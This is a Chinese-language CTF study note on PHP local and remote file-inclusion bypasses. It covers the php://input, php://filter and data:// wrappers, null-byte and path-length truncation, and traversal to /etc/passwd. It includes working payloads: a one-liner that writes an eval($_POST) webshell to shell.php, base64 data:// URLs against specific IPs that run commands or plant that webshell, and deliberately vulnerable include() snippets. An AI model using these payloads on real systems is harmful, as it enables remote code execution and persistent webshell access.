

<center>文件包含绕过</center>

> allow_url_fopen = On（是否允许打开远程文件）

> allow_url_include = On（是否允许include/require远程文件）

文件包含本身不严谨就会导致本地任意文件读取漏洞

具体内容看[这里](https://www.freebuf.com/articles/web/182280.html)

ctf[题](https://adworld.xctf.org.cn/task/answer?type=web&number=3&grade=1&id=5415&page=1)，[答案](https://www.cnblogs.com/xhds/p/12218471.html)


### 1.	伪协议绕过

#### 1.	php://input

其实就相当于参数的值为：通过`php://input`传过去的数据

> 条件：allow_url_fopen和allow_url_include同时开启 （PHP<5.3.0）
>
> 此漏洞本身就会导致代码执行，所以也会引起命令执行和写入木马

在这可以理解成远程文件包含漏洞（RFI），即POST过去PHP代码，即可执行。


> ctf代码后端如下：
>
> ```
> <?php
> show_source(__FILE__);
> echo $_GET['hello'];
> $page=$_GET['page'];
> while (strstr($page, "php://")) {		//这里过滤了php:所以用PHP:
>     $page=str_replace("php://", "", $page);
> }
> include($page);
> ?>					//CTF地址https://adworld.xctf.org.cn/task/answer?type=web&number=3&grade=1&id=5415&page=1
> ```


其实相当于后端接收的参数`page`的值为：通过`php://input`伪协议传过去的值。

> 可以看到后端接收`page`参数然后直接包含文件。其本身会造成任意文件读取漏洞


##### php://input命令执行

我们可以通过直接在post参数那一栏写入代码。



> php://input伪协议会自动的读取`post`数据，不用管这次请求是`get`。

>  其实就相当于要包含的参数的值为：通过`php://input`传过去的数据

后端处理会直接把`page`参数的值，也就是`php://input`伪协议引用的`post`数据拿来使用


##### php://input写入木马

> 不过不知道为什么我：php://input用不了

因为`php://input`本身就是一个代码执行，所以我们可以通过代码执行的方式来上传一个木马

```
<?PHP fputs(fopen('shell.php','w'),'<?php @eval($_POST['name'])?>');?>
```

> 在当前目录下写入一个php一句话木马


实际图片如下：


> 然后再通过蚁剑连上就行了


##### php://filter


> 元封装器，设计用于”数据流打开”时的”筛选过滤”应用，对本地磁盘文件进行读写。

简单说就是可以通过这个`php://filter`来进行本地文件的读取。


可以通过此协议，包含当前页面


用法：

```
?filename=php://filter/convert.base64-encode/resource=xxx.php filename=php://filter/read=convert.base64-encode/resource=xxx.php 一样。
```


条件：只是读取，需要开启 allow_url_fopen，不需要开启 allow_url_include；


注意：读取出来的数据是经过`base64`编码后的数据

注意！！！：通过这种读取可以直接包含本页面。。

例如：

如果参数`file_name`是传在index页面。可以通过`php://filter`方法。把`index`页面给包含进来。直接就能读取其base64编码后的源码。

> ps.直接包含当前页面。


[讲解](https://blog.csdn.net/zpy1998zpy/article/details/80585443)


#### 2.	data://

> 需要allow_url_include=On（PHP < 5.3.0）

数据流封装器，和`php://input`很像。不过`php://input`伪协议是通过接收post的值。而`data://`是直接把数据封装在url后面

> 和`php://input`真的很像，其区别就是一个引用post数据，一个把数据封装在了url中


基本格式：

```
data://text/plain;base64,xxxx(base64编码后的数据)
```


##### 命令执行


直接把想执行的命令，通过`base64`编码一下接在后面就好了

编码<?php system('ls')?>

```
http://111.198.29.45:47062/?page=data://text/plain/;base64,JTNDJTNGcGhwJTIwc3lzdGVtJTI4JTI3bHMlMjclMjklM0YlM0U=%2b  (注意编码后的+号要URL编码)
```


##### 传入木马


`base64`加密一句话木马:

```
<?php eval($_POST['name'])?>
```


```
http://111.198.29.45:52340/?page=data://text/plain/;base64,PD9waHAgZXZhbCgkX1BPU1RbeGlhb2h1YV0pOyA/Pg==
```

然后直接用蚁剑连就行了


### 2.	本地包含绕过


#### 1.	session文件包含漏洞


去看看最上面的文章。如果还是没懂的话。建议[看看](https://www.jianshu.com/p/a9d616ea8b36)


#### 2.	无限制本地文件包含漏洞


无限制本地包含漏洞，就是直接包含。甚至可以直接包含到`/etc/passwd`而不需要做其他的绕过

```
?filename=../../../../etc/passwd
```


#### 3.	有限制本地文件包含漏洞绕过


有限制的文件包含。简单说就是：

> 此处前端传过去一个filename的值为admin.php

```
?filename=admin.php
```


但是后端处理的时候。会给后缀加上一个`.html`


后端代码如下：

```
<?php
    $filename  = $_GET['filename'];
    include($filename . ".html");
?>
```


##### 1.	%00截断


条件：magic_quotes_gpc = Off php版本<5.3.4

测试代码如下

```
http://www.ctfs-wiki.com/FI/FI.php?filename=../../../../../../../boot.ini%00
```

这样其实就和文件上传的%00截断是一样的。


##### 2.	路径长度截断

条件：windows OS，点号需要长于256；linux OS 长于4096

> Windows下目录最大长度为256字节，超出的部分会被丢弃；
>
> Linux下目录最大长度为4096字节，超出的部分会被丢弃。

测试代码：

```
<?php
    $filename  = $_GET['filename'];
    include($filename . ".html");
?>
```

EXP:

```
http://www.ctfs-wiki.com/FI/FI.php?filename=test.txt/./././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././/././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././/././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././/././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././/./././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././
```


**点号截断**

条件：windows OS，点号需要长于256

测试代码：

```
<?php
    $filename  = $_GET['filename'];
    include($filename . ".html");
?>
```

EXP:

```
http://www.ctfs-wiki.com/FI/FI.php
?filename=test.txt.................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................
```


### 3.	远程包含绕过


> 此处就不写关于远程包含绕过。详情可以去看此文最顶部的文章链接


#### 1.	无限制远程文件包含漏洞


#### 2.	有限制远程文件包含漏洞绕过

##### 1.	问号绕过

##### 2.	#号绕过

